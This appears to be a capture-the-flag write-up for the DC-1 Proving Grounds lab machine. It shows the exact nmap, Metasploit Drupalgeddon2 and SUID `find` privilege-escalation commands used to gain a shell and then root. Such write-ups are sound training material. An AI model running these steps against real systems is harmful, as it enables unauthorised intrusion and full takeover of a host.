 ```yaml
---
title: "DC-1"
date: 2024-11-07
draft: false
summary: "Writeup for the DC-1 proving grounds CTF challenge."
tags: ["linux", "suid"]
categories: ["writeups"]
series: []
showToc: true
cover:
  image: "https://cdn.ziomsec.com/dc1/cover.webp"
  caption: "DC-1 Proving Grounds Challenge"
  alt: "DC-1 cover"
platform: "Misc"
---
```


This challenge has 2 flags and require us to capture them both by hacking into the system.
<!--more-->
To access the lab, visit **[proving grounds](https://portal.offsec.com/labs/play)** and download the vpn configuration file. Connect to the vpn using `openvpn <file.ovpn>` and start the machine to get an IP.

## Recon

I performed an **nmap** aggressive scan to find open ports and the services running on them.

```shell
nmap -A -p- TARGET -oN dc1.nmap --min-rate 10000
```

| **Port** | **Service**            |
| -------- | ---------------------- |
| 22       | ssh                    |
| 80       | http                   |
| 111      | rpcbinder              |
| 50881    | *dynamically assigned* |

![](https://cdn.ziomsec.com/dc1/1.webp)

## Initial Foothold

I visited the web application running on port 80 and found a **Drupal** Login page.

![](https://cdn.ziomsec.com/dc1/2.webp)

Since **nmap** was able to identify the version of **Drupal**, I searched **Exploit-DB** to identify exploits. Since there were some listed on **Metasploit**, I could use the **Metasploit Framework** for exploitation.

```shell
$ searchsploit 'drupal 7'
$ msfconsole
> search drupal
```

![](https://cdn.ziomsec.com/dc1/3.webp)

![](https://cdn.ziomsec.com/dc1/4.webp)

I selected the `unix/webapp/drupal_drupalgeddon2` exploit and configured parameters like `RHOSTS` (target), `LHOST` (listener IP). Finally, I ran the exploit and got shell access on the target.

```shell
> set RHOSTS TARGET_IP
> set LHOST KALI_IP
> run
```

![](https://cdn.ziomsec.com/dc1/5.webp)

![](https://cdn.ziomsec.com/dc1/6.webp)

I entered shell mode by typing `shell` and navigated to the `/home` directory to capture the first flag.

![](https://cdn.ziomsec.com/dc1/7.webp)

## Privilege Escalation

I then listed binaries owned by root and with an **SUID** bit and found the **find** command. This was an unusual binary and could be used to spawn a shell as it's owner - root.

```shell
find / -user root -perm -u=s -ls 2>/dev/null
```

![](https://cdn.ziomsec.com/dc1/8.webp)

I visited **GTFObins** and found a way to escalate my privilege  by exploiting this misconfiguration.
- https://gtfobins.github.io

```shell
find local.txt -exec /bin/sh -p \; -quit
```

![](https://cdn.ziomsec.com/dc1/9.webp)

Finally I captured the final flag from the `/root` directory.

![](https://cdn.ziomsec.com/dc1/10.webp)

## Closure

Here's a short summary of how I pwned **DC-1**:
- I Identified **Drupal 7** to be running through **nmap** scan.
- I found exploits for that particular version on metasploit and used it to get initial access.
- I captured the first flag from the `/home` directory.
- I looked for binaries with suid bit and found the `find` command which seemed strange.
- I searched on **gtfobins** and found a way to exploit this misconfiguration to get **root** access.
- After escalating my privilege, I captured the final flag from `/root` directory.

That's it from my side! Until next time ;)

---